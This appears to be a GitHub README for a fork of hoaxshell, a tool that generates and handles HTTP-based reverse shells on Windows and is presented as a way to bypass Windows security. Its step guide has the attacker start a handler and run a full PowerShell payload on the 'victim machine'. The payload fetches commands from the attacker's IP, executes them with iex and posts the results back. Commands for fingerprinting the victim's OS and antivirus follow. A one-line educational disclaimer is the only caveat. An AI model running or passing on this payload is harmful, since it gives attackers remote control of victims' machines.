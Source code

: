 <h1 style="font-size:10vw" align="left">Bypassing an Active Windows Security</h1>

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v5.1-blue">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
very grateful to the original author [t3l3machus](https://github.com/t3l3machus)


## Description
hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


******
## Step Guides
1. First, install all the requirements
```
sudo pip3 install -r requirements.txt
```
2. Make the script executable
```
chmod +x hoaxshell.py
```
3. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address
```
./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
```
4. Run the script in powershell on the victim machine with some obfuscation technique
```
$xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
```
6. Check the operating system information used by victim machine
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
5. And check the antivirus product used by victim machine
```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

******
## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
